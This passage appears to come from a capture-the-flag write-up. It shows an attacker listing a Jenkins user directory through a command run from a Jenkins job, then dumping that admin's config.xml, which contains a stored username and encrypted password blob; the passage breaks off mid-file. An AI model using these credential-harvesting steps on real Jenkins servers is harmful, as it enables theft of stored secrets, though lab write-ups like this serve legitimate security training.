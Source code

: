 

In that admin directory, there's a `config.xml`:



    C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\0xdf's job>powershell -c ls ..\..\users\admin_17207690984073220035 

        Directory: C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035

    Mode                LastWriteTime         Length Name                                                                  
    ----                -------------         ------ ----                                                                  
    -a----       10/21/2021   2:22 AM           3186 config.xml 



I'll dump that file and save it to my local workstation:



    <?xml version='1.1' encoding='UTF-8'?>
    <user>
      <version>10</version>
      <id>admin</id>
      <fullName>admin</fullName>
      <properties>
        <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
          <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
            <entry>
              <com.cloudbees.plugins.credentials.domains.Domain>
                <specifications/>
              </com.cloudbees.plugins.credentials.domains.Domain>
              <java.util.concurrent.CopyOnWriteArrayList>
                <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
                  <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
                  <description></description>
                  <username>oliver</username>
                  <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
                  <usernameSecret>false</usernameSecret>
                </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              </java.util.concurrent.CopyOnWriteArrayList>
            </entry>
          </domainCredentialsMap>
        </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
        <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
          <triggers/>
        </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
        <hudson.model.MyViewsProperty>
          <views>
            <hudson.model.AllView>
              <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
              <name>all</name>
              <filterExecutors>false</filterExecutors>
              <filterQueue>false</filterQueue>
              <properties class="hudson.model.View$PropertyList"/>
            </hudson.model.AllView>
          </views>
        </hudson.model.MyViewsProperty>
        <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
          <providerId>default</providerId>
        </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
        <hudson.model.PaneStatusProperties>
          <collapsed/>
        </hudson.model.PaneStatusProperties>
        <jenkins.security.seed.UserSeedProperty>
          <seed>ea75b5bd80e4763e</seed>